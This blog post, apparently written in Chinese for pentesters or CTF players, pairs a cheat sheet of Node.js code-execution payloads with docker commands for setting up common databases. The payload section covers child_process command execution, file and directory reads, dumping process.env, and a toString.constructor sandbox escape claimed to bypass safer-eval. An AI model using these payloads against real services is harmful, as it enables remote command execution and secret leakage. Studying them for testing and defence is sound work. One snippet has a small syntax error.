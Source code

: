 ```yaml
---
layout:     post
title:      Nodejs 代码执行利用 与 常见数据库的docker环境
subtitle:   简单小总结一下
date:       2020-12-8
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/75586588_p0.jpg
catalog: true
tags:
    - Nodejs
    - docker
---
```



## nodejs 代码执行利用



**贴一下之前总结关于nodejs利用的知识点**

```javascript
require("child_process").exec("whoami")toString() 
require("child_process").execSync("dir").toString()
```

windows

```javascript
require("child_process").execFileSync("cmd",["/C","dir"]).toString()
require("child_process").spawnSync("cmd",["/C","dir"])["output"][1].toString()
````

无回现

```javascript
require("child_process").spawn("cmd",["/C","calc"])
require("child_process").execFile("cmd",["/C","calc"]) //要运行的可执行文件的名称或路径。
```

列目录 

```javascript
require("fs").readdirSync('C:\\')
```

读文件

```javascript
require("fs").readFileSync("123.txt").toString()
```

利用 process 获取敏感信息

```javascript
process.env
process.cwd()
process.arch
process.version
process.geteuid()
```

没有require下引入模块

```javascript
global.process.mainModule.constructor._load('child_process').exec('calc')
```

没有process

```javascript
toString.constructor('return process')().mainModule.constructor._load('child_process').execSync('whoami')
```

绕过沙盒
safer-eval

```javascript
toString.constructor('return process')().mainModule.constructor._load('child_process').execSync('whoami')
```





## Docker-常见数据库的快速搭建



### mysql8



```bash
docker run -dit --name mysql8 -e MYSQL_ROOT_PASSWORD=password haakco/mysql80
```

```bash
docker exec -it mysql8 bash -c "mysql -u root -p"
```



开启远程连接

```sql
ALTER USER 'root'@'%' IDENTIFIED WITH mysql_native_password by 'password';
```





### PostgreSQL



```bash
docker run --name postgresql -itd --restart always   --publish 5432:5432   --volume postgresql:/var/lib/postgresql   sameersbn/postgresql:12-20200524
```

```bash
docker exec -it postgresql sudo -u postgres psql
```





### Mssql

需要内存较高

```bash
docker run --name mssql -e 'ACCEPT_EULA=Y' -e 'SA_PASSWORD=password' -e 'MSSQL_PID=Express' -p 1433:1433 -d microsoft/mssql-server-linux
```



```bash
docker exec -it mssql /opt/mssql-tools/bin/sqlcmd -S localhost -U sa -P password
```



### Redis



```bash
docker run --name some-redis -d redis
```

```bash
docker exec -it some-redis redis-cli
```





### Sqlite3

```bash
 docker run --name sqlite3  -it nouchka/sqlite3 sqlite3
```



### Oracle

```bash
docker pull alexeiled/docker-oracle-xe-11g
```



```bash
docker run -h "oracle" --name "oracle" -d -p 49160:22 -p 49161:1521 -p 49162:8080 alexeiled/docker-oracle-xe-11g
```



```bash
docker exec -it oracle bash 
```

进入docker 执行

```bash
sqlplus system/oracle
```



### MongoDB

构建

```bash
docker run -d \
    --name mongodb \
    -p 27017:27017 \
    -e MONGODB_USERNAME=myusername \
    -e MONGODB_PASSWORD=mypassword \
    frodenas/mongodb
```



运行

```bash
 docker exec -it mongodb /bin/bash -c 'mongo 127.0.0.1/admin -u myusername -p
```


```bash
MongoDB shell version: 3.0.7
Enter password: 
connecting to: 127.0.0.1/admin
>mypassword
```

